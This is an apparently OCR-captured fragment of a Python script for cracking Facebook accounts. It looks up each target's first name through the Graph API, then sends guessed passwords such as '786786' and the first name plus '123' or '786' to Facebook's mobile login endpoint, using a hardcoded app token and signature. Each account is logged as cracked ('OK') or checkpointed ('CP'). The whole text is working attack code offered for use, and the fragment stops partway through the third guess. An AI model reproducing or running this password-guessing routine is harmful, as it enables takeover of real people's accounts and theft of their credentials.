    h=requests.get('https://graph.facebook.com/'+user+'/?access_token='+tb)

   j=json.loads(h.text)

   ps1=('786786')

   dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps1)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

   k=json.load(dt)

   if 'www.facebook.com' in k['error_msg']:

       print(S+'[CP] ♡ '+user+' ♡ '+ps1)

       cps.append(user+ps1)

   else:

       if 'access_token' in k:

           print (G+'[OK] ♡ '+user+' ♡ '+ps1)

           oks.append(user+ps1)

       else:

           ps2=(j['first_name']+'123')

           dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps2)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

           k=json.load(dt)

           if 'www.facebook.com' in k['error_msg']:

               print(S+'[CP] ♡ '+user+' ♡ '+ps2)

               cps.append(user+ps2)

           else:

               if 'access_token' in k:

                   print(G+'[OK] ♡ '+user+' ♡ '+ps2)

                   oks.append(user+ps2)

               else:

                   ps3=(j['first_name']+'786')

                   dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps3)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')

                   k=json.load(dt)

                   if 'www.facebook.com' in k['error_msg']:

                       print(S+'[CP] ♡ '+user+' ♡ '+ps3)
